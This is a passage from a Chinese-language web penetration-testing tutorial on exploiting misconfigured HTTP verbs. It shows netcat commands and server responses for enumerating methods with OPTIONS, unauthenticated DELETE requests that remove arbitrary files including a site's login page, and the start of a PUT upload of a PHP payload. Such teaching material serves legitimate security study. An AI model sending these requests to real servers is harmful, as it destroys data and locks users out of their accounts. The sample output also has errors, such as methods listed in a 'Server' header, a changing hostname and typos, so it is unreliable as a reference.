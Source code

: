 请注意，有时启用的 HTTP 动词取决于您正在探测的主机名！

## Exploiting Misconfigured HTTP Verbs（利用配置错误的HTTP动词）
现在您已经知道如何使用一些 HTTP 动词，是时候看看如何使用它们来利用配置错误的 Web 服务器了。
首先，渗透测试者必须列举可用的方法或动词。

### Enumeration with OPTIONS
您可以通过使用 Netcat 发送 OPTIONS 消息来做到这一点。

```
nc victim.site 80
OPTIONS / HTTP/1.0

HTTP/1.1 200 OK
Date: Tue, 27 Jan 2015 13:30:56 GMT
Server: GET,HEAD,POST,PUT,DELETE,OPTIONS
Vary: Accept-Encoding
Content-Length: 0
Connection: close
Content-Type: text/html
```
### Exploiting DELETE
要利用 DELETE 动词，您只需指定要从服务器中删除的文件；这显示了未经身份验证的 DELETE 方法如何删除服务器上的任意资源。

```
nc victims.site 80
DELETE /path/to/resource.txt HTTP/1.0

HTTP/1.1 200 OK
Date: Tue, 27 Jan 2015 13:37:19 GMT
Server: Apache/2.2.22 (Debian)
Vary: Accept-Encoding
Connection: close
```

在这里，我们看到一个删除登录页面的示例，从而使每个用户都无法登录。
```
nc victim.site 80
DELETE /login.php HTTP/1.0

HTTP/1.1 200 OK
Date: Tue, 27 Jan 2015 13:37:19
Server: Apache/2.2.22 (Debian)
Vary: Accept-Encoding
Connectin: close
```

### Exploiting PUT
利用 PUT 方法更加**复杂**，因为您必须知道要在服务器上上传的文件的大小。为此，您可以使用 Unix 实用程序 wc（字计数器）及其 `-m` 参数来计算有效负载的长度（以字节为单位）。

```
wc -m payload.php
20 payload.php
```
